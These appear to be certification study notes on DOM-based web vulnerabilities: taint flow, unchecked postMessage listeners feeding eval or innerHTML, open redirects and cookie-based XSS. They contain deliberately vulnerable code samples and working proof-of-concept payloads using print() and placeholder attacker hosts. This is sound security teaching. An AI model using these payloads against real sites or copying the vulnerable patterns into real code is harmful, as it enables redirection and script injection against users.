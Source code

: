 ##### PortSwigger BurpSuite Certification Summary
# DOM-Based Vulnerabilities
A DOM-based attack can arise when there is an attacker controllable source that is processed in an unsafe way by the system. The latter step happens in the so-called sink, such as the `eval()` function or `innerHTML`. The propagation of malicious input to an unsafe sink is called taint flow.

Consider the following code example:
```
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
The `location` object references the URL, which is easily controlled by an adversary. The code splits the URL at the hash sign and then checks if `https:` is a prefix of the link. Therefore, an attacker can construct a link that redirects the victim to an arbitrary site:
```
https://VITCTIM-HOST#https://ATTACKER-HOST
```
Setting the `location` object automatically redirects the user to the supplied URL.

## Web Message Source
If there is an event listener that does not properly check the source of the event it is listening for, an attack might be able to use this. The crafted message from the attacker could be passed by the event listener to a sink, thus enabling a DOM-based attack.
For example:
```
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```
does not verify the origin of the message, enabling code to be passed to `eval()`:
```
<iframe src="VICTIM-HOST" onload="this.contentWindow.postMessage('print()','*')">
```
The JS syntax is `postMessage(message, targetOrigin)`.

In case the website offers `innerHTML` as a sink, the payload can look something like this:
```
... onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
Yet another example is the `location.href` context. This method sets the URL and can therefore execute JS code:
```
<iframe src="VICTIM-HOST" onload="this.contentWindow.postMessage('javascript:print()','*')">
```
It can be necessary to change the quotes in use, for example when they are used within the payload. An example is JSON:
```
<iframe src="VICTIM-HOST" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\" }","*")'>
```
## Open Redirect
Let there be a function which takes a URL parameter and sets the `href` of a link accordingly:
```
<div class="is-linkback">
	<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location);
	if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back</a></div>
```
This functionality takes the `url` parameter and sets it as the link to follow when clicking the "Back" button if the format is correct. Therefore, an attacker only has to append a malicious link as the parameter to make the victim be redirected:
```
https://VICTIM-HOST?url=https://ATTACKER-HOST
```
The victim will first reach the usual website, but upon clicking "Back", will be taken to the attacker host.

The main sinks are:
  * location
  * location.host
  * location.hostname
  * location.href
  * location.pathname
  * location.search
  * location.protocol
  * location.assign()
  * location.replace()
  * open()
  * element.srcdoc
  * XMLHttpRequest.open()
  * XMLHttpRequest.send()
  * jQuery.ajax()
  * $.ajax()

## Cookie Manipulation
Writing user controllable data into a cookie is also useful for an attacker. For example, the cookie value can be used to store the last viewed product:
```
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'


<a href='_lastViewdProduct_'>Last viewed product</a>
```
So the goal is to perform XSS when the last viewed product link is clicked. We can escape the `<a>` tag and insert a script; This should be set as the link for the victim to click. Afterwards, it makes sense to direct the victim to the original site (with the malicious link set):
```
<iframe src="VICTIM-HOST&'><script>print()</script>" onload="if(!window.x)this.src='VICTIM-HOST';window.x=1;">
```
